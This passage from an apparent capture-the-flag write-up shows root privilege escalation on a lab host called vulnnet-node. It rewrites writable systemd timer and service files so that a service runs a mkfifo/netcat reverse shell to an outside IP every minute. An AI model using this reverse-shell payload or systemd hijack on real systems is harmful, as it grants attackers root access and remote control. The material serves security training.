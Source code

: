It actually calls another script (`vulnnet-job.service`):

~~~
serv-manage@vulnnet-node:/etc/systemd/system$ cat vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
~~~

## Modify the scripts

Both scripts are writable to us. Let's stop the `vulnnet-auto.timer` service first:

~~~
$ sudo -u root /bin/systemctl stop vulnnet-auto.timer
~~~

We modify `vulnnet-auto.timer` so that it will run every minute instead of every 30 minutes:

~~~
$ cat > /etc/systemd/system/vulnnet-auto.timer << EOF 
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
EOF
~~~

In `vulnnet-job.service`, we modify the `ExecStart` command to call a reverse shell command.

~~~
$ cat > /etc/systemd/system/vulnnet-job.service << EOF
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer
 
[Service]
Type=forking
ExecStart=/bin/sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 5555 >/tmp/f'
 
[Install]
WantedBy=multi-user.target
EOF
~~~

